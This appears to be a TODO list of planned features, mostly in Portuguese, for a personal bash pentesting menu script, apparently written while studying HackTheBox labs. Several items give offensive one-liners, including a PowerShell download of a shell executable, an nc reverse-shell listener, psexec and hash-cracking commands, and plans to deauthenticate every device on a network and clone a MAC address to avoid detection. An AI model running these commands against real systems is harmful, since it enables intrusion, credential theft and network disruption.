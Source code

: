 
        future features
        0.0. O menu do change mac adress não esta fucnionando corretamente corrige lá
        0.1. Revisa se esta funcionando certinho e altera de torghost para torghostNG. tem o comando que deve ser usado no notes
        1.1 Implementa o Jhon The reaper aqui no codigo, tem a logica no notion
         2 - Muda todas as vezes que preciso solicitar uma placa de wifi para o nome que vem da função selectedwificard
         9 - Estuda e implemneta nmap
         9.1 Faz uma opção no nmap com vull script like sudo nmap -sS --script vuln -vv www.siteemquestao.com.br
         10 - Faz um menu para ganhar acesso powershell em windows usando o comando a seguinr  \psexec.py administrator@10.10.10.27\" tem um exemplo no primeior hack do hackthebox "
         10.1 - Revist the script, read the script from the top to the begining and see what can be done better
         11 - Faz um menu pra conectar no msql usando o padrao acima, sendo que o login é o começo o ip é o do servidor mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
         12 - Um menu para criar um webserver temporario usando python ---- sudo python3 -m http.server 80
         13 - Muda todas as variaveis para minuscula é uma boa pratica pois variaveis do sistema são em maiuscula
         14 - Faz um menu pra dar start no metaspoit: msfdb int .... msfconsole
         15 - Add -vv para todos os comandos nmap do script pra poder acompanhar em tempo real
         16 - Cria um menu para bruteforce e dentro do menu na hora que escolhe faz uma observação em cima como uma opçoa 0 por exempol ocrito 0 - OBS! If you need to scan a dns or vhost there is a alwsome tool called GoBuster, study.
         17 - Estuda e coloca um menu pra dar airodump que exibe as conexões, se não me engano é sudo irodump-ng wlan0 mas testa e acho que precisa colocar em modo monitor também usando o airclack ou algo assim
         18 - Implementa o Hydra, é uma exelente ferramenta de bruteforce, já tem no notes uma logica de programação
         19 - Coloca o dirsearch para rodar como sudo, pois assim consegue salvar logs normalmente, pois esta sem permissõa
         20 - tem umas opções mais completas no dirsearch como por exemplo usar uma lista de extenções, que deve ser tipo cvs, além de outras coisas, como recursivo ou nao e o nivel de recursividade, coloca no codigo, estuda melhor e planeja pra diexar o mais completo possivel
         20.1 - Revist the script, read the script from the top to the begining and see what cam be done better
         21 - subistituo onde esta test por [[ comand ]] é um jeito melhor de se fazer e o outro jetio esta obsoleto
         22 - estuda o crunch e implementa no script é um otimo programa para gerar listas de senhas para quando precisar descobrir uma senha mas já tem um padrão em mente
         24 - Sera que este é o mlehor jeit ode fazer menu possivel? Vis sobre a possibilidade de usar o comand select do bash, da uma estudada nisso, pode ser uma boa tem mais aqui https://wiki.bash-hackers.org/syntax/ccmd/user_select
         27 - Eu não sei se é possivle, mas se for que tal dar uma estudada no pyshark? e implentar aqui em um script de bash, é possivel ou so quando este script mudar pra python?
         28 - Implement patetor? it is a best tool? then Hydra? Search more.
         29 - Implement study mor about reponder.py, and add to the script a method to crack a password using jhon the reaper Faz um menu para o jhon the reaper john SMB-NTLMv2-SSP-192.168.100.101.txt –wordlist=/usr/share/wordlists/rockyou.txt porque é relacionado ao responder.py
         30 - Tem algum jetio de colocar romandos pra rodar no metasploit por aqui? seria sensacional, ai conforme eu for aprendendo eu vou adiciondo, tambem tem a questão que tira pra aprender bem e se possivel até fazer um curso de metasploit é uma ideia exelente, planeja melhor
         30.1 - Revist the script, read the script from the top to the begining and see what cam be done better
         31 - Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script
         32 - Study and implement hashcat
         32 - Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness
        34 - Replace all echos for printf, its better
        35 - See how i avoid to use eval, its too bat for security
        36 - Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile
        38 - Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux
        39 - Study Msfvnom and implement, it is an excelent payload generator[:]
        40 - Study and implent rlwrap nc -lnvp 4444 its realy good to reverse shells and study about the rlwarp ok? to understend perfectly. Maybe using pwncat?
        40.1 - Revist the script, read the script from the top to the begining and see what cam be done better
        41 - Create a menu with util stuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell
        42 - Put in dirsearch an option to save the output, its awsome to CTFs  and reports
        43 - study the best directory wordlist, to use in dirbuster or afuzz, or another tool
        44 - Study and implement wpscan, its a good tool to break into wordpress sites
        45 - Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some creat linux tools for this maybe only implement is suficient
        46 - Study and implement rustscan, its a realy good tool. There is a github repository
        47 - Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts
        48 - Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti
        49 - Create a Function who update the script with the last features implemented in the github version
        50 - Revist the script, read the script from the top to the begining and see what cam be done better
        53 - If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible
        54 - Organize the menu in a better way, is too confuse
        55 - Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"
        56 - Study massscan, its good for mass scaning ports, or rustscan? What is better?
        57 - Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about
        58 - Study and implement msfvenom its a great tool to make palyloads
        59 - Study and implement nikto
        60 - Revist the script, read the script from the top to the begining and see what cam be done better
        62 - Study and implement termshark, its good to see pcaps in terminal
        63 - Study and implement FFUF, its really fast because its in go
        64 - Implement option so search ".bak" in in websearches, it really good to see some codes
        65 - Study and implement Uchecker, its a good tool to check for not uptodate tools on servers
        66 - Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users
        77 - Remove cpf generator, there is better tools online
        78 -  Study and implment sublist3r, its a really great scanner for subdomains ussing ossint
        79 - Study and implement pwncat, its a really great reverse shell hander, is the one by calleb stuart, not the other
        80 - Revist the script, read the script from the top to the begining and see what cam be done better
        81 - Study and implment nikton its a good webscaner
        82 - Study and implment social engenner tookit, its really god to work with social engineer
        83 - Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter
        84 - Implement wfuzz its preaty great
        85 - Study and Implement Sqlmap
        86 - Implement te 'sectlist' program from kali, its a copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?
        87 - Study and implent enum4linux, its preaty good to use to enumerate samba shares
        88 - Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose
        89 - Study and implement sherlock, its a great tool for OSINT
        90 - Revist the script, read the script from the top to the begining and see what cam be done better
        91 - Study and implement airgedon its good to do deauth atacks in softwarey
        92 - What i can do to make this script more beautiful? Maybe some colors or ident?
        93 - Maybe Implement RustScan? Its so fast
